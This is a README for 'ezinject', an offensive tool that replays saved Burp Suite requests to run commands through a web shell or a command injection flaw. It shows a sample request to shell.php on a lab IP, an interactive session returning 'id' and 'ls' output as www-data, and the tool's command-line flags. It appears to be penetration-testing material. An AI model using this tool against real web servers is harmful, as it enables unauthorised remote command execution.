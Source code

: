 # ezinject
Save requests from Burp Suite and interact with web shells or command injection on web applications the easy way.
Just replace command injection with <EZINJECT> or something of your choosing with the '-c' flag.

### Example
```
$ cat test.req
GET /shell.php?cmd=<EZINJECT> HTTP/1.1
Host: 192.168.56.6:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; Mozilla/5.0 ; Linux i686)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close

$ python3 ezinject.py -r test.req -os linux -http
ez >  id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ez >  ls                     
index.html
index.nginx-debian.html
shell.php

ez >
```
### Command line flags
```
$ python3 ezinject.py -h
usage: ezinject.py [-h] [-v] [-http] -r REQUESTFILE -os OS [-c COMMAND]
                   [-p PATTERN] [-first]

Interact with web shells or command injection on web applications.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Display server reponse headers
  -http                 Force connecting over HTTPS
  -r REQUESTFILE, --request REQUESTFILE
                        Burp Request file
  -os OS, --operating-system OS
                        Target operating system (Windows|Linux)
  -c COMMAND, --command COMMAND
                        Command to replace in the burp file, ensure this is
                        unique in the request (default: <EZINJECT>)
  -p PATTERN, --pattern PATTERN
                        Specify a pattern that is located either side of
                        command output to extract eg: --pattern ZZZ (this will
                        filter ZZZ<command output>ZZZ)
  -first                If command output is appended, this will print the
                        first occurence. (default: print the last occurence)
```

### Features
- Tab completion 
- (Ctrl-l or "clear" or "cls") clears the screen
- History
- Type "EzHelp" for Powercatch help commands (command not sent over the network)

### TODO
- Implement File Upload and Download functionality (Performed in segments via base64)
- Flag that will auto generate and filter string for command injection